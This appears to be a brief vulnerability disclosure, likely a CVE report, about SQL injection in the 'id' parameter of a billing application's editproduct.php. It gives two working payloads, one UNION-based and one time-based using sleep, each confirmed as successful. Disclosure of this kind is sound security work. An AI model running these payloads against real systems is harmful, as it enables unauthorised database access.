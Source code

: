 BUG_Author: lixu

Vulnerability File: /smartbilling_source_code/editproduct.php

GET parameter "id" exists SQL injection vulnerability

Payload1: id=-1 union all select null,null,null,null,concat(0x565758,0x686970),null,null,null,null-- -

Union query succeeded

![image](https://github.com/niyuchunqiu/cve/blob/main/sql1.png)

Payload2:id=2 and (select 2 from (select(sleep(15)))i)

Time-based injection succeeds, response time is 15 seconds

![image](https://github.com/niyuchunqiu/cve/blob/main/sql2.png)

